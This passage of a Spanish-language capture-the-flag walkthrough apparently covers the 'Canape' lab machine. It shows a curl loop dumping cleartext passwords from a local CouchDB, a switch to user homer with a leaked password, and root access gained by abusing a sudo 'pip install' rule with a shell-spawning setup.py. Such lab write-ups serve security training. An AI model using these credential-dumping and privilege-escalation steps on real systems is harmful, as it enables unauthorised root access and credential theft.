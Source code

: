 Podemos ver las claves de los datos, vamos a acceder a ellos.

```bash
www-data@canape:/$ for i in $(curl -s -X GET http://hacktricks:hacktricks@127.0.0.1:5984/passwords/_all_docs | cut -d ':' -f 2 | cut -d ',' -f1 | tr -d '"');do curl http://hacktricks:hacktricks@localhost:5984/passwords/$i;done
{"error":"not_found","reason":"missing"}
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```


### Privesc To Root

Podemos ver un item llamado ssh con una password, puede que nos sirva para el usuario del sistema:

```bash
www-data@canape:/$ su homer
Password: 
homer@canape:/$ id
uid=1000(homer) gid=1000(homer) groups=1000(homer)
homer@canape:/$
```

Vamos a ver como seguir escalando privilegios, vamos a ver si tenemos permisos de sudo.

```bash
homer@canape:/$ sudo -l
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
homer@canape:/$ 
```

Podemos ejecutar pip  install como root sobre lo que sea. Para aprovecharnos de esto vamos a crear el siguiente archivo pip.

```python
import os 
os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')
```

Esto nos invocará una sh con privilegios de root. Vamos a tratar de ejecutarlo.

```bash
homer@canape:/tmp$ TF=$(mktemp -d)
homer@canape:/tmp$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
homer@canape:/tmp$ sudo pip install $TF
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Processing ./tmp.cv7AmwjhZe
# 
uid=0(root) gid=0(root) groups=0(root)
```
